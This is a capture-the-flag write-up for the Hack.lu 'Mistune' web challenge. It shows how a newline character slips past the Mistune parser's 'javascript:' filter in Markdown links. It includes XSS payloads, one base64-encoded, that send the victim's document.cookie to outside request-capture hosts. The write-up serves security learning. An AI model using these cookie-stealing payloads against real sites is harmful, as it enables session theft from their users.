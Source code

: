 # [HACK.LU-CTF] Mistune (Web)
##### **Description :** Markdown parsers are fun. Now click here and steal the cookie!

In this challenge, we have two forms to submit Markdown code that is parsed by Mistune.
The first form is for testing purposes and the second one's sent contents are read by an admin bot which has the flag in it's cookies.

In markdown syntax, we can create a XSS payload by using the link creation directive :
```html
[mylink](https://www.google.com)
[xss](javascript:alert`1`)
```

Mistune parser filters out the **javascript:** token. We need to find a way to bypass this filter to get a working XSS payload.
To do so, we try to use **data:text/html** but it only works on Firefox browser.
```html
[click](data:text/html;base64,PHNjcmlwdD53aW5kb3cubG9jYXRpb24gPSAiaHR0cHM6Ly9ob29rYmluLmNvbS9iaW4vdkRrWDlyanc/YWRtaW5fY29va2llPSIrZG9jdW1lbnQuY29va2llPC9zY3JpcHQ+)
```

We found some bypasses on Mistune's github [Issue#87](https://github.com/lepture/mistune/issues/87) but they are inefficient since the parser is up-to-date.
 
After many trials and errors, we came up with a filter bypass! The mighty newline character **\n** !
It's stripped out by the browser thus leading to a working XSS payload.
```html
[xss](javascript
:document.location="https://requestb.in/XXXXXXX?fckadmins="+document.cookie)
```

Boom! We got the flag!